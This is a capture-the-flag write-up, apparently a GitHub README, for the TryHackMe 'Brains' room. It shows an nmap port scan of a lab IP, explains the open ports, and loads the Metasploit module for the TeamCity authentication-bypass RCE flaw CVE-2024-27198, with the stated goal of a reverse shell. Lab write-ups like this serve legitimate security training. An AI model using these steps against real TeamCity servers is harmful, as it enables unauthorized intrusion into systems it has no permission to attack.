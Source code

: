 ![Nmap Scan](Theme%20Brains.JPG)
# brains-writeup-thm
Write-up for TryHackMe room Brains

> 🧠 Room: [Brains](https://tryhackme.com/room/brains)  
> 📅 Date: April 6, 2025  
> 🛡️ Goal: Gain reverse shell & capture the flag  
> 🚨 CVE used: CVE-2024-27198

# RED exploit the server!

1. First Step in the Terminal "nmap -p- <Target_IP_Address>"
```bash
nmap -p- 10.10.252.192
````
# "nmap" -> The network scanner tool
# "-p-"  -> Scans all ports (from 1 to 65535). By default, Nmap scans only the top 1000 most common ports.
# "<Target_IP_Address>" -> The IP address of the target — in the case of the Brains room
![Nmap Scan](Brain%20Room%20Nmap%20scan.JPG)

# What ports are open and why they matter: 
# 22/tcp → ssh (This port is used for Secure Shell (SSH) — remote access to the machine via terminal.)
# 80/tcp → HTTP (This is the default HTTP port, used to serve websites.)
# 50000/tcp → ibm-db2 (detected by default) This is not a common service for this port. In this specific room (Brains), this port is hosting a TeamCity server, vulnerable to CVE-2024-27198.

2. What port should we investigate further + Using Metasploit (msfconsole) to Exploit the TeamCity Vulnerability
# The most interesting one here is Port 50000: even though it's labeled ibm-db2, it actually runs TeamCity, which is vulnerable to authentication bypass and remote code execution (RCE).
```bash
msfconsole
```
# "msfconsole" -> This launches the Metasploit interface.

```bash
search teamcity
```
# "search teamcity" -> This will list available exploit modules related to TeamCity
#  Look for one like: exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198

#  Use the module:
```bash
use exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198
```

